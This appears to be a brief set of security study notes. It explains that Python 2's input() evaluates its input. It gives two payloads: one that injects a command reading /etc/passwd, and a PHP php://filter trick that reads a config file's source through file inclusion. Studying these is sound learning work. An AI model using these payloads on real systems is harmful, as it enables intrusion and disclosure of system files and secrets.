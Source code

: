 Learnings:
input() in python2 is not safe, equivalent to eval() 
exploiting input() command: 

__import__("os").system('cat /etc/passwd')


PHP:
fetching source files : 
index.php?file=php://filter/convert.base64-encode/resource=config 
